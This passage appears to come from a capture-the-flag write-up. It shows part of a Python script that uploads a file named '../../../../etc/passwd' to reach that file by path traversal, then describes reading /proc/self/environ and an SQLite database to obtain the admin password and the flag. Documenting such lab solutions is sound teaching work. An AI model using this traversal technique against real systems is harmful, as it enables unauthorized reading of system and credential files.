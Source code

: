 ```py
    url = f"{BASE_URL}/file/{file_id}"
    response = session.get(url)
    if response.status_code == 200:
        with open(f"downloaded_{file_id}.file", 'wb') as f:
            f.write(response.content)
        print(f"File {file_id} downloaded successfully.")
    else:
        print(f"View File: {response.status_code} - {response.json()}")

def admin_access():
    url = f"{BASE_URL}/admin"
    response = session.get(url)
    print(f"Admin Access: {response.status_code} - {response.text}")

if __name__ == "__main__":
    register('demo', 'demo')
    login('demo', 'demo')
    
    file_path = './demo.txt'
    new_filename = '../../../../etc/passwd'
    upload_file(file_path, new_filename)

    list_files()
    view_file(1)
```

Running the above script downloads the `/etc/passwd` file for us. Which means that our LFI was successful.

Now we simply had to get the flag from the environment variables. A simple solution would be to read the `/proc/self/environ` file which contains the environment variables but because the server is checking the `blocked` words in filename which prevents us from reading the `environ` file (although the way it is checking the `blocked` words is incorrect, when trying to read the `/environ` file it didn't work).

So a simple way to get the flag was to read the `sqlite` database (`/app/instance/db.db`) which would give us the `admin password` and then we can use that to login as admin and then navigate to `/admin` to get the flag.
